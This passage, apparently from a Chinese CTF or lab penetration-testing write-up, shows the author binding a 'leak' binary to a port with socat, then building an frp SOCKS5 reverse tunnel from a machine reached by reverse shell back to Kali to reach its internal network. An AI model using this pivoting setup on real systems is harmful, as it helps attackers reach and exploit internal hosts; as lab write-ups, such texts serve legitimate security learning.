 接下来就是要把`leak`二进制文件挂载到一个端口上，比较简单的做法是用`nc -e`进行挂载，不过这里的nc版本不对，不能用这个参数。询问`ChatGPT`，他给了我这个命令`socat`

```
socat TCP4-LISTEN:13145,reuseaddr,fork EXEC:/home/leak &
```

现在的问题就是，似乎从kali无法直接`nc 10.13.37.10 13145`端口，而在反弹shell里的是能`nc 127.0.0.1 13145`，大概率是不出网的问题，可以看到他只有两个内网`IP`

![](./images/image-127.png)

既然反弹`shell`的机器能够访问我的`kali`，那么可以尝试使用`frp`搭建代理，然后代理访问内网挂载`leak`的端口，实现攻击

\[github author="fatedier" project="frp"\]\[/github\]

下载`amd64`版本，然后如下配置，其中`server_addr`是`kali`的内网`IP`，`remote_port`是使用代理的端口

```
[root@kali] /home/kali/Desktop/frp_0.61.0_linux_amd64  
❯ cat frps.ini             
[common]
bind_port = 7000

[root@kali] /home/kali/Desktop/frp_0.61.0_linux_amd64  
❯ cat frpc.ini
[common]
server_addr = 10.10.xx.xx  
server_port = 7000  
tls_enable = ture 
 
[plugin socks]
type = tcp  
plugin = socks5 
remote_port = 46075  
use_encryption = true
use_compression = true
```
